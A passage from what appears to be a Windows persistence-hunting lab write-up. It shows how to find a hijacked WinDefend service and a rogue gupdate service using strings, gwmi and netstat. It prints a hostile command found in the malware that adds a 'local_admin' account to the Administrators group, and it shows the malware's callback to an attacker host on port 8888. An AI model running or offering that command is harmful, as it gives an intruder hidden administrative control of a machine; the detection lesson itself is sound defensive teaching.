 Running SysInternals tool "strings" with `strings WinDefend.exe` shows
a very suspicious string inside the file:

`cmd.exe /c net user local_admin Metasploit$1 /ADD && net localgroup Administrators local_admin /ADD`

This creates a user named local_admin and adds the new user to the
Administrators group. 

**ANALYSIS:**

The ImagePath registry value of the WinDefend service was changed to
point to a malicious program.  The service is configured to execute
automatically with a delayed start which allows the attacker's program
to run after every startup.  When executed, the program creates a new
user with local administrative privileges that the attacker can use to
control the victim host.

**ANSWER:**

This persistence method allows an attacker to control the host with what
appears to be a legitimate local admin account.

## Service Permissions

If an attacker can modify a service, the binary path can be changed to
any executable on the system. 

Typing `gwmi win32_service | select name,status,pathname  | ft -auto` shows the binary paths for each service.

Typing `gwmi win32_service | select name,status,pathname | ft -auto | findstr /v /i system32`  filters out many of the legitimate
results.

One service binary that sticks out is:

`gupdate       Stopped               C:\Program.exe`

Get more information about the service is by typing `Get-Service gupdate | select -pr *`

This is the Google Update Service which is configured for an automatic,
delayed start.  Program.exe looks like the wrong binary path for this
service.

Executing the suspicious file while watching SysInternals Process
Explorer shows the name of its process and its PID.

Typing `netstat -ano | findstr <pid>` shows the process attempts
to connect to port 8888 on the attacker's machine:

```powershell
TCP        192.168.2.114:49173        192.168.2.110:8888          SYN_SENT           <pid>
```

Setting up a listener on port 8888 shows the malware connects and sends
the following:

```powershell
GET /PbpaQubt-wZDXEJeG__dFwEGo979rf40fkDGlUz7NKA387KA-q8cPw29iivd0cn85Bsq4KlG7v70WNbLVFExgreHmxZvyhDS HTTP/1.1
Host:  192.168.2.110:8888
Cache-Control:  no-cache
```

